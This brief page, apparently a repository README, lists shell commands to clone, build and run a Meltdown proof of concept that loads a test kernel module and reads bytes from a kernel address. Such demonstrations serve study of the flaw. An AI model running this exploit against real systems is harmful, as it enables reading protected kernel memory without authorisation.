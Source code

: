 # git clone https://github.com/21cnbao/meltdown-example.git
# make
# insmod proc.ko
# lsmod |grep proc
# tail dmesg
# dmesg |grep variable

- sse instructions can increase performance of program
# gcc -O2 -msse2 meltdown-baohua.c
# ./a.out ffffffffa09b9000 4


